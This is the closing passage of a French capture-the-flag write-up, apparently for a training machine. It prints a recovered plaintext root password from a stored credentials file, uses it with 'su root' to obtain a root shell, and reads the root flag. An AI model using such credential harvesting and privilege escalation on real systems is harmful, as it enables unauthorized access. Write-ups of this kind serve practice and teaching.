 **Résultat :**

```
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: \!\!python/unicode 'p7qfAZt4_A1xo_0x'
```

### Connexion root

```bash
su root
# Password: p7qfAZt4_A1xo_0x
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        <strong>ROOT SHELL OBTENU \!</strong> Privilèges maximum atteints.
    </p>
</div>



## 🏁 Phase 9 — Extraction des flags

### Récupération du root flag

Avec l'accès root, nous pouvons maintenant récupérer le root flag :

```bash
cat /root/root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned\!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag :</strong> /home/jnelson/user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag :</strong> /root/root.txt
            </p>
        </div>
    </div>
</div>
